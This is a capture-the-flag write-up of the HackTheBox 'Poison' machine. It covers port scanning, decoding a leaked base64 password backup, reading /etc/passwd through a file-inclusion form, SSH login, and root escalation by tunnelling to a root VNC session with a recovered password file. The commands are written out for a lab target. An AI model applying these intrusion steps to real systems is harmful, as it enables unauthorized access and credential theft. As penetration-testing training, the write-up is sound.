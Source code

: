 # Hackthebox - Poison

- FreeBsd (Unix)

![Poison](../.res/HTB-Poison.png)

- [Box on HTB](https://app.hackthebox.com/machines/132)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn 10.10.10.84
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-26 19:49 EDT
Nmap scan report for 10.10.10.84
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=3/26%OT=22%CT=1%CU=42712%PV=Y%DS=2%DC=I%G=Y%TM=623FA6B
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=Z%II=RI%TS=21)O
OS:PS(O1=M505NW6ST11%O2=M505NW6ST11%O3=M280NW6NNT11%O4=M505NW6ST11%O5=M218N
OS:W6ST11%O6=M109ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)E
OS:CN(R=Y%DF=Y%T=40%W=FFFF%O=M505NW6SLL%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=FFFF%S=O%A=S+%F=AS%O=M109NW6ST11%R
OS:D=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=38%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.11 seconds
```

## Port 80

- If we go on the website we have this page  
![Website](/.res/htb-poison-website.png)

- The listfiles.php seems interesting  
```
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt ) 
```
- Let's have a look at the password backup
```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo= 
```
It says the password has been encoded at list 13 times.  
Let's go to cyberchef and try to add the recipe "frombase64" 13 times or more until it gets decrypted.  
And it works!!  

![Poison decrypted](/.res/htb-poison-cyberchef-password.png)

- On the website using the form we can show /etc/passwd
```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

## Initial foothold

We can use the password to connect with ssh. and the user charix because it is less likely to work with root.
```
ssh charix@10.10.10.84
```
And it works
- We can get the user flag now `cat user.txt`
- when we list the files we have a secret.zip we can take in our machine and try to unzip it with the password 
```
┌──(root💀kali)-[~/Documents/hackthebox/poison]
└─# unzip secret.zip                                                                                                                                                                                      82 ⨯
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret       
 ┌──(root💀kali)-[~/Documents/hackthebox/poison]
└─# cat secret            
��[|Ֆz!                                                                                                                                                                                                               
┌──(root💀kali)-[~/Documents/hackthebox/poison]
└─# file secret        
secret: Non-ISO extended-ASCII text, with no line terminators
```
The file is not readable using cat

## Privesc

- With `ps -aux` we see a vnc process `root   529   0.0  0.9  23620  8868 v0- I    00:08    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.`
- With `ps -auxww` we get more information we see that it is running on port 5901.
- We need to use ssh port forwarding to interact more easily with this process `ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84` I should be able to access vnc with my port 5901
- With some research on vnc it seems like the password file we found in the zip can be used to access the process `vncviewer 127.0.0.1:5901 -passwd secret`
- We get a root shell and can have the flag

## Resources

**Rana's writeup is very detailed because she shows 3 different way to gain initial foothold**  
{% embed url="https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/poison-writeup-w-o-metasploit#0a99" %} Writeup Poison - Rana Khalil - Gitbook {% endembed %}

